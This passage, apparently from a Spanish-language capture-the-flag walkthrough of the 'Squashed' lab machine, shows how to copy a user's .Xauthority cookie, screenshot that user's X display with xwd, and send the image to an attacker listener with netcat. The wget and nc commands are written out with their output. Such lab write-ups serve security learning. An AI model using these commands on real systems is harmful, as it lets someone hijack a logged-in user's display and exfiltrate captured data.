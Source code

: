 El archivo ".Xauthority" es un archivo que contiene información de autenticación para el servidor X Window. El servidor X Window es el sistema que proporciona el entorno gráfico en sistemas operativos Linux y Unix.

Vamos a pasarnos el archivo .Xauthority del usuario ross, al directorio personal del usuario alex.

```
alex@squashed:/home/alex$ wget http://10.10.14.116:8080/.Xauthority
Saving to: ‘.Xauthority’
2023-01-29 07:21:36 (360 B/s) - ‘.Xauthority’ saved [57/57]
```

```
$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.191 - - [29/Jan/2023 04:21:39] "GET /.Xauthority HTTP/1.1" 200 -
```

# Escalada de privilegios

Si usamos el comando "w", podremos listar quienes están conectados a nuestra sesión.

```
alex@squashed:/home/alex$ w
 07:26:44 up 2 days, 54 min,  1 user,  load average: 0.05, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               Fri06    2days  6:34   0.04s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

Vemos que el usuario ross está conectado y está usando la pantalla ":0", ya que tenemos su archivo .Xauthority, intentemos hacerle una captura de pantalla.

```
alex@squashed:/tmp$ XAUTHORITY=/home/alex/.Xauthority xwd -root -screen -silent -display :0 > screenshot.xwd
alex@squashed:/tmp$ file screenshot.xwd 
screenshot.xwd: XWD X Window Dump image data, "xwdump", 800x600x24
```

Perfecto, le pudimos sacar una captura de pantalla, vamos a transferirnos el archivo a nuestra máquina.

```
$ nc -lvnp 4646 > screenshot.xwd
```

```
alex@squashed:/tmp$ cat screenshot.xwd | nc 10.10.14.116 4646
```

```
$ nc -lnvp 4646 > screenshot.xwd
Listening on 0.0.0.0 4646
Connection received on 10.10.11.191 36294
$ file screenshot.xwd
screenshot.xwd: XWD X Window Dump image data, "xwdump", 800x600x24
```
